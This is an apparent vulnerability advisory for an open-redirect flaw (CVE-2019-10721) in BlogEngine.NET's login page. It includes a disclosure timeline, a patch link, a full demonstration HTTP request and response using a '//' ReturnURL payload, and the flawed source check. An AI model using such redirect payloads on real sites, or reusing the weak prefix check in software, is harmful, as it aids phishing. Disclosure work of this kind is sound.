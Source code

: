 A unvalidated redirect, CVE-2019-10721, exists on BlogEngine.NET versions 3.3.7 and earlier on `login.aspx`.  This attack would send users that attempt to log in to the application to an external, potentially malicious, site.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases/tag/v3.3.8.0>

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 24 Jun 2019

## Description

The **ReturnURL** parameter can be set to an external URL.  If a user clicks a link with a malicious **ReturnURL**, such as `http://$RHOST/Account/login.aspx?ReturnURL=//slashdot.org`, the user will be redirected to the malicious site after successfully logging in to the application.  The following request demonstrates the behavior:

~~~
POST /Account/login.aspx?ReturnURL=<r:b>%2f%2fslashdot.org</r:b> HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://$RHOST/Account/login.aspx?ReturnURL=//slashdot.org
Cookie: .AUXBLOGENGINE-96d5b379-7e1d-4dac-a6ba-1e50db561b04=
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 576

__VIEWSTATE=DanAcZcPJOojiW7E3LvrMfJu3hs0SKHBoBaexIYMslcJdEydu3cltGFlO9cTUd5Z4i3KdDLD%2Fdvpqre5FXnXPIRp%2BxmYnwi2BRxerRN3Ul0T27h1s81dQ8N1KslY%2B9G3APOoHkB%2Bm1Bwhb1w0w%2F5RNji82uGfuaUvneYwkPUd6kMA6zk&__VIEWSTATEGENERATOR=CD85D8D2&__EVENTVALIDATION=xJNBuo98hov1SBPdrP0kv1MQMlBJ0QMs3MKusjVY576tVnNbdvNoaUEnUaOHjK80aL1AvGIs1H82weh6d1sIWVIDpoQUfuc2D3C09OOXPel6ekXf%2BHXUyHxra0IP0jhuPNt9eV9NikMzvnp498lh9livj2rCmHEcbaJIE5Kq85YBFJn4&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=admin&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in


HTTP/1.1 302 Found
Cache-Control: private
Content-Type: text/html; charset=utf-8
Location: http://slashdot.org/
Server: Microsoft-IIS/10.0
Set-Cookie: .AUXBLOGENGINE-96d5b379-7e1d-4dac-a6ba-1e50db561b04=; path=/; HttpOnly
X-Powered-By: ASP.NET
Date: Thu, 04 Apr 2019 17:33:07 GMT
Connection: close
Content-Length: 137

<html><head><title>Object moved</title></head><body>
<h2>Object moved to <a href="http://slashdot.org/">here</a>.</h2>
</body></html>
~~~

<pagebreak></pagebreak>

This behavior can be traced to:

~~~{command="BlogEngine/BlogEngine.Core/Services/Security/Security.cs"}
187                     // ignore Return URLs not beginning with a forward slash, such as remote sites.
188                     if (string.IsNullOrWhiteSpace(returnUrl) || !returnUrl.StartsWith("/"))
189                         returnUrl = null;
190
191                     if (!string.IsNullOrWhiteSpace(returnUrl))
192                     {
193                         context.Response.Redirect(returnUrl);
194                     }
195                     else
196                     {
197                         context.Response.Redirect(Utils.RelativeWebRoot);
198                     }
~~~

The application accepts a **ReturnUrl** that begins with `/`. `//` is commonly used to specify external URLs using the same protocol as the current page. `//slashdot.org` satisfies the requirement that the **ReturnURL** start with `/`.
